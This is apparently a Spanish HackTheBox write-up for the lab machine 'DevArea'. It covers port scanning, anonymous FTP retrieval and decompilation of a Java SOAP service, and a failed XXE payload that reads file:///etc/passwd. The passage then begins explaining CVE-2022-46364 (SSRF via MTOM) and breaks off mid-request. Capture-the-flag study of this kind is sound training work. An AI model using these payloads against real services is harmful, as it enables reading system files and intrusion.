







+++
title = "HackTheBox - DevArea"
draft = false
description = "Resolución de la máquina DevArea"
summary = "OS: Linux | Dificultad: Medium | Conceptos: Hoverfly, SSRF, Servicios, Flask, Writable bash"
tags = ["HTB", "Linux", "Medium", "Writable Bash", "CVE", "Hoverfly", "jar", "Flask", "SSRF", "Systemctl"]
categories = ["Writeups"]
showToc = true
date = "2026-03-30T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `~6h`
* **Datos Iniciales**: `10.129.19.233`

## Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.219
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_  256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: DevArea - Connect with Top Development Talent
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.27.v20200227)
8500/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 30 Mar 2026 17:20:04 GMT
|     Content-Length: 64
|     This is a proxy server. Does not respond to non-proxy requests.
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 30 Mar 2026 17:19:48 GMT
|     Content-Length: 64
|_    This is a proxy server. Does not respond to non-proxy requests.
8888/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8500-TCP:V=7.98%I=7%D=3/30%Time=69CAB0B3%P=x86_64-pc-linux-gnu%r(Ge
...[SNIP]...
```

- `21/tcp (vsFTPd 3.0.5)`: FTP, login anónimo permitido, no vulnerable (salvo a DoS).
- `22/tcp (OpenSSH 9.6p1)`: No vulnerable
- `80/tcp (Apache/2.4.58)`: Vulnerable a CVE-2024-38476 (SSRF si hay una app backend con headers explotables), aunque posiblemente no sea  relevante. Es la página de DevArea.
- `8080/tcp (Jetty 9.4.27.v20200227)`: Vulnerable a [CVE-2019-17638](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2019-17638#:~:text=En%20Eclipse%20Jetty%2C%20versiones%209.4.27.v20200227%20hasta%209.4.29.v20200521%2C,respuesta%20HTTP%20es%20devuelto%20al%20ByteBufferPool%20dos), que permite exponer datos sensibles  de usuarios.
- `8500/tcp (Golang net/http server)`: No parece detectarse correctamente. El fingerprint revela algunos datos, y si hacemos curl para verlo mejor:
```bash
$ curl devarea.htb:8500   
This is a proxy server. Does not respond to non-proxy requests.
```
- `8888/tcp (Hoverfly Dashboard)`: Como dice el nombre, un panel de control con versión desconocida, tendremos que entrar para verla.

## Plan
Dado que tenemos varios puertos abiertos y un entorno que desconocemos, deberíamos organizar toda la info que tenemos para saber ante qué estamos, y así posteriormente saber en qué dirección ir.

#### Hoverfly Dashboard
Podemos empezar buscando qué es [Hoverfly](https://docs.cloud.hoverfly.io/) (y Hoverfly Dashboard). Tras una búsqueda:
>  *Hoverfly is an open-source, lightweight service virtualization tool designed to mock, simulate, and capture API interactions for software testing. It acts as a proxy server to create realistic API responses, allowing developers to test systems without relying on live external services. The Hoverfly dashboard is a web-based GUI that offers real-time visualization and control over these simulated services.*

Es decir, es una aplicación que permite simular APIs, capturando las solicitudes de las aplicaciones a éstas a través de un proxy (**que posiblemente sea el de `tcp/8500`**) y generando las respuestas que la API real devolvería. Por otro lado, el dashboard es, como podríamos haber imaginado, un panel de control que permite gestionar todo esto.

Es decir, confirmamos que:
- `tcp/8888`: Hoverfly Dashboard, para gestionar APIs simulados, sus respuestas, proxies y demás.

Además, según Google, la autenticación viene desactivada por defecto, lo que implica que si nos metemos y no hay nada configurado, accederemos al panel directos, mientras que si lo hay, no tendremos unas credenciales por defecto que probar.

Hay una introducción a Hoverfly [aquí](https://xebia.com/blog/hoverfly-your-best-friend-in-api-simulation-clone/).
#### Proxies
Buscando más acerca de la posibilidad de que realmente `tcp/8500` sea el proxy, encuentro esto:
> *The default port for the Hoverfly proxy is 8500. It defaults to listening on localhost (127.0.0.1), passing traffic between clients and services. The administrative API, used for managing Hoverfly via hoverctl, defaults to port 8888.*

- `tcp/8500`: Proxy encargado de interceptar solicitudes HTTP(S) entre el software que desarrollamos y el servicio externo para simular sus respuestas.

#### Aplicación de prueba
Sabemos que Hoverfly se encarga de interceptar solicitudes HTTP/HTTPS y responder en nombre de las APIs reales, conocemos su Dashboard (8888) y su proxy (8500), pero cuál es la aplicación que se ejecuta y manda las solicitudes que Hoverfly intercepta?. 

Dado que la mayoría de aplicaciones de prueba se ejecutan en los puertos 8000/8080, podemos intuir que `tcp/8080` es la app en desarrollo, de ahí que no haya un header ni un servicio conocido y simplemente se clasifique como Jetty.

Aunque no estamos seguros de momento, asumimos que estamos en lo cierto. Siempre podemos corregirlo luego:
- `tcp/8080`: Aplicación en desarrollo que manda solicitudes API que intercepta Hoverfly.

### Resumen
Con todo esto, la visión general y el orden en el que buscaremos cosas queda:
1. `21/tcp`: FTP, login anónimo permitido, podremos sacar info interesante.
2. `80/tcp`: Página de DevArea. Con todo el entorno de red que hay, es raro que el foothold inicial esté aquí, pero vale la pena descartarlo primero para centrarnos en Hoverfly.
3. **Entorno Hoverfly**
  - `8888/tcp (Hoverfly Dashboard)`: Probaremos a ver si no hay autenticación, y si la hay tiramos por otro lado (o buscamos credenciales).
  - `8080/tcp (App en desarrollo)`: Todavía queda por ver, pero posiblemente haya algo interesante.
  - `8500/tcp (Hoverfly Proxy)`: Dudablemente nos dará algo importante, pero tendremos que verlo.

Así que vamos a por ello.

## FTP
Al conectarnos vemos un directorio `pub`:
```bash
$ ftp anonymous@devarea.htb
Connected to devarea.htb.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub

ftp> cd pub
250 Directory successfully changed.
```
Dentro de éste encontramos un archivo `employee-service.jar`:
```bash
ftp> ls
-rw-r--r--    1 ftp      ftp       6445030 Sep 22  2025 employee-service.jar

ftp> get employee-service.jar
local: employee-service.jar remote: employee-service.jar
150 Opening BINARY mode data connection for employee-service.jar (6445030 bytes).
100%    6293 KiB    7.03 MiB/s    00:00 ETA
226 Transfer complete.
6445030 bytes received in 00:00 (6.73 MiB/s)
```

> [!tip]+ Nota: .jar's
> Para más info sobre los `.jar` puedes mirar [Blocky](/writeups/blocky#archivos-jar) en su apartado "Análisis de Plugins".

Dado que Jetty (la app web que suponemos está en desarrollo) es un servidor web de Java, podemos intuir que este `.jar` va a ser específicamente el código fuente de esta app web.


### employee-service.jar
Si abrimos el `.jar`
```bash
$ jar xf employee-service.jar
$ ls
about.html  com  employee-service.jar  htb  javax  jetty-dir.css  META-INF  mozilla  org  OSGI-INF  schemas
$ tree 
...[SNIP]...
352 directories, 3609 files
```
Dado que, como vemos, hay demasiados archivos para ir entrando manualmente a cada directorio, usamos `tree -d` para tener una visión global, ahí encuentro bastantes cosas:

- Muchos directorios de librerías. Al parecer esto es una práctica (o más bien el .jar en sí) denominada Fat JAR, que consiste en meter todas las dependencias de nuestro software también en el jar. Así que tendremos que ignorar muchas cosas.
- `htb/devarea/`: Un directorio sospechoso en otro directorio con nombre sospechosamente parecido a la plataforma en la que se hostea la máquina.
- `META-INF/maven/com.environment/employee-service/`: Metadatos con (posiblemente) versiones de librerías y demás.
- `META-INF/MANIFEST.MF`: Info y metadatos del programa. Indica cuál es la clase principal (y por  tanto la función main() a partir de la cual se ejecuta el programa).

Si miramos en MANIFEST.MF:
```mf
Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Created-By: Apache Maven 3.8.7
Build-Jdk: 1.8.0_462
Main-Class: htb.devarea.ServerStarter
```
Vemos que `htb.devarea.ServerStarter` es el punto de inicio al programa.

Si miramos `META-INF/maven/com.environment/employee-service/pom.xml`, vemos las versiones de cada aplicación del jar:
- `employee-service`: 1.0, el programa custom.
- `org.apache.cxf`: 3.2.14, vulnerable a SSRF en MTOM (CVE-2022-46364), no nos centraremos en esto de momento.
- `slf4j-api`, `slf4j-simple`: 1.7.26, sin vulnerabilidades aparentes.
- `maven-compiler-plugin`: 3.8.1, sin vulnerabilidades aparentes.
- `maven-shade-plugin`: 3.6.0, sin vulnerabilidades aparentes.

Así que solo queda ir a por nuestro programa custom en `htb/devarea/`:
```bash
$ cd htb/devarea
$ ls -l
total 16
-rw-rw-r-- 1 kali kali  329 Sep 21  2025 EmployeeService.class
-rw-rw-r-- 1 kali kali 1084 Sep 21  2025 EmployeeServiceImpl.class
-rw-rw-r-- 1 kali kali 1562 Sep 21  2025 Report.class
-rw-rw-r-- 1 kali kali 1173 Sep 21  2025 ServerStarter.class
```

Tenemos 4 archivos compilados, podemos ir descompilándolos uno a uno.
```bash
$ java -jar cfr-0.152.jar jar/htb/devarea/ServerStarter.class > decompiled/ServerStarter.java
$ java -jar cfr-0.152.jar jar/htb/devarea/Report.class > decompiled/Report.java
$ java -jar cfr-0.152.jar jar/htb/devarea/EmployeeServiceImpl.class > decompiled/EmployeeServiceImpl.java
$ java -jar cfr-0.152.jar jar/htb/devarea/EmployeeService.class > decompiled/EmployeeService.java
```

### Archivos .class descompilados
Ahora vamos mirándolos, empezando por el que sabemos hace de main(), ServerStarter.java:
```ServerStarter.java
/* Decompiled with CFR 0.152. */
package htb.devarea;

import htb.devarea.EmployeeService;
import htb.devarea.EmployeeServiceImpl;
import org.apache.cxf.jaxws.JaxWsServerFactoryBean;

public class ServerStarter {
    public static void main(String[] args) {
        JaxWsServerFactoryBean factory = new JaxWsServerFactoryBean();
        factory.setServiceClass(EmployeeService.class);
        factory.setServiceBean(new EmployeeServiceImpl());
        factory.setAddress("http://0.0.0.0:8080/employeeservice");
        factory.create();
        System.out.println("Employee Service running at http://localhost:8080/employeeservice");
        System.out.println("WSDL available at http://localhost:8080/employeeservice?wsdl");
    }
}
```
Vemos dos URLs relevantes:
- `http://devarea.htb:8080/employeeservice`: Ruta del servicio
- `http://devarea.htb:8080/employeeservice?wsdl`: WSDL. Info de formato de la petición SOAP.


```Report.java
package htb.devarea;

public class Report {
    private String employeeName;
    private String department;
    private String content;
    private boolean confidential;

    public String getEmployeeName() {
        return this.employeeName;
    }

    public void setEmployeeName(String employeeName) {
        this.employeeName = employeeName;
    }

    public String getDepartment() {
        return this.department;
    }

    public void setDepartment(String department) {
        this.department = department;
    }

    public String getContent() {
        return this.content;
    }

    public void setContent(String content) {
        this.content = content;
    }

    public boolean isConfidential() {
        return this.confidential;
    }

    public void setConfidential(boolean confidential) {
        this.confidential = confidential;
    }

    public String toString() {
        return "Report{employeeName='" + this.employeeName + '\'' + ", department='" + this.department + '\'' + ", content='" + this.content + '\'' + ", confidential=" + this.confidential + '}';
    }
}
```
Se define un objeto `Report` con 4 campos:
- `employeeName` (string)
- `department` (string)
- `content` (string)
- `confidential` (bool)


```EmployeeService.java
package htb.devarea;

import htb.devarea.Report;
import javax.jws.WebService;

@WebService(name="EmployeeService", targetNamespace="http://devarea.htb/")
public interface EmployeeService {
    public String submitReport(Report var1);
}
```
Expone la interfaz de nombre "EmployeeService" al exterior (a http://devarea.htb/).

```EmployeeServiceImpl.java
package htb.devarea;

import htb.devarea.EmployeeService;
import htb.devarea.Report;

public class EmployeeServiceImpl
implements EmployeeService {
    @Override
    public String submitReport(Report report) {
        String greeting = report.isConfidential() ? "Report marked confidential. Thank you, " + report.getEmployeeName() : "Report received from " + report.getEmployeeName();
        return greeting + ". Department: " + report.getDepartment() + ". Content: " + report.getContent();
    }
}
```

Implementa la interfaz "EmployeeService", haciendo que en función de si `report.isConfidential()` es verdadero o falso se guarde en `greeting`:
- V: `Report marked confidential. Thank you, [NOMBRE]`
- F: `Report received from [NOMBRE]`
Luego, devuelve un string formado por `greeting`, `report.getDepartment()` y `report.getContent()`.

En sí no hay nada peligroso ni vulnerable en estos .jar. No se acceden a bases de datos (SQLi) y tampoco se ejecutan comandos (RCE). Lo único de lo que podemos aprovecharnos es que el servidor nos devuelve exactamente la información (Nombre, Departamento, etc.) que le mandamos, por lo que puede ser vulnerable a XXE.

## Puerto 8080
### Intento de XXE
Para confirmar el XXE, miramos las versiones en el .jar:
```bash
$ cat  META-INF/maven/com.fasterxml.woodstox/woodstox-core/pom.properties
version=5.0.3
groupId=com.fasterxml.woodstox
artifactId=woodstox-core
```

Si buscamos la versión exacta, daremos con [esto](https://security.snyk.io/vuln/SNYK-JAVA-COMFASTERXMLWOODSTOX-2928754): [WS-2018-0629](https://github.com/vlaship/hadoop-wc/issues/49).

> [!tip]+ Nota: CVEs y WS
> A diferencia de los CVE (emitidos por MITRE/NIST), los WS son identificadores de vulnerabilidades descubiertas por Mend (anteriormente WhiteSource, una plataforma de comprobación de seguridad en aplicaciones) y que todavía no han recibido su CVE correspondiente. Algunos WS, como este caso (WS-2018-0629), nunca reciben un CVE oficial.

Así que, efectivamente, comprobamos que Woodstox 5.0.3 es vulnerable a XXE.

Si miramos el WSDL (`http://devarea.htb:8080/employeeservice?wsdl`), vemos lo siguiente:
```xml
<xs:complexType name="submitReport">
  <xs:sequence>
    <xs:element minOccurs="0" name="arg0" type="tns:report"/>
  </xs:sequence>
</xs:complexType>

<xs:complexType name="report">
  <xs:sequence>
    <xs:element name="confidential" type="xs:boolean"/>
    <xs:element minOccurs="0" name="content" type="xs:string"/>
    <xs:element minOccurs="0" name="department" type="xs:string"/>
    <xs:element minOccurs="0" name="employeeName" type="xs:string"/>
  </xs:sequence>
</xs:complexType>
```
La función `submitReport` requiere un parámetro `arg0` con un objeto `report`, formado por los 4 campos que habíamos visto antes. Podemos probar a mandar un payload cualquiera, no necesariamente malicioso, a ver si funciona; como el siguiente:
```payload.xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dev="http://devarea.htb/">
   <soapenv:Header/>
   <soapenv:Body>
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>If a mosquito has a soul, it is mostly evil. So I don't have too many qualms about putting a mosquito out of its misery. I'm a little more respectful of ants.</content>
            <department>N/A</department>
            <employeeName>Douglas R. Hofstadter</employeeName>
         </arg0>
      </dev:submitReport>
   </soapenv:Body>
</soapenv:Envelope>
```

Probamos a mandarlo:
```bash
$ curl http://devarea.htb:8080/employeeservice -X POST -H "Content-Type: text/xml" -d @payload_clean.xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns2:submitReportResponse xmlns:ns2="http://devarea.htb/"><return>Report received from Douglas R. Hofstadter. Department: N/A. Content: If a mosquito has a soul, it is mostly evil. So I don't have too many qualms about putting a mosquito out of its misery. I'm a little more respectful of ants.</return></ns2:submitReportResponse></soap:Body></soap:Envelope>
```
Y recibimos el output, así que sabemos que se ha procesado correctamente.

Si ahora probamos con uno malicioso, como este:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dev="http://devarea.htb/">
   <soapenv:Header/>
   <soapenv:Body>
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>&xxe;</content>
            <department>test</department>
            <employeeName>test</employeeName>
         </arg0>
      </dev:submitReport>
   </soapenv:Body>
</soapenv:Envelope>
```

Veremos que la respuesta es:
```bash
curl http://devarea.htb:8080/employeeservice -X POST -H "Content-Type: text/xml" -d @payload.xml

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><soap:Fault><faultcode>soap:Client</faultcode><faultstring>Error reading XMLStreamReader: Received event DTD, instead of START_ELEMENT or END_ELEMENT.
at [row,col {unknown-source}]: [1,52]</faultstring></soap:Fault></soap:Body></soap:Envelope> 
```
Y nos da error.

> [!warning]+ Tras varias pruebas...
> Tras probar un rato largo con varios payloads diferentes (XInclude, SSRF, etc.), sigo sin haber descubierto nada, así que decido que es momento de ir por otro camino.

### CVE-2022-46364
Antes, al mirar las versiones de las librerías y apps instaladas en el .jar, había mencionado lo siguiente:

> *`org.apache.cxf`: 3.2.14, vulnerable a ataques similares a SSRF en MTOM (CVE-2022-46364), no nos centraremos en esto de momento.*

Bien, pues esta mención a ese CVE la había hecho por deber más que por cualquier otra cosa, porque no tenía la más mínima intención de mirar ese CVE y de hecho ni siquiera pensaba que fuésemos a tener que usarlo, ahora bien, puede ser que nos saque de esta situación.

#### Vulnerabilidad
El CVE dice:
> *A SSRF vulnerability in parsing the href attribute of XOP:Include in MTOM requests in versions of Apache CXF before 3.5.5 and 3.4.10 allows an attacker to perform SSRF style attacks on webservices that take at least one parameter of any type.*

Normalmente, si se quiere enviar un archivo binario (p.ej, un pdf) a través de un API SOAP, hay que codificarlo en b64 y meterlo en XML. Para archivos grandes esto es muy lento de procesar.

Para solucionar esto, se inventó Message Transmission Optimization Mechanism, **MTOM**. MTOM permite enviar mensajes SOAP como si fuesen emails con archivos adjuntos (con MIME), usando el formato `multipart/related`.

El XML principal va en una parte del mensaje y los datos binarios en otra. Para conectarlo todo, se usa XOP. Dentro del XML se pone un tag que actúa como puntero al "fichero adjunto", usando su Content-ID (`cid`), que suele tener formato de email por razones históricas (estándar MIME), aunque técnicamente podría tener cualquier formato

Un XML con XOP sería algo así:
```HTTP
POST /employeeservice HTTP/1.1
Host: devarea.htb:8080
Content-Type: multipart/related; boundary="SEPARADOR"; type="application/xop+xml"

--SEPARADOR
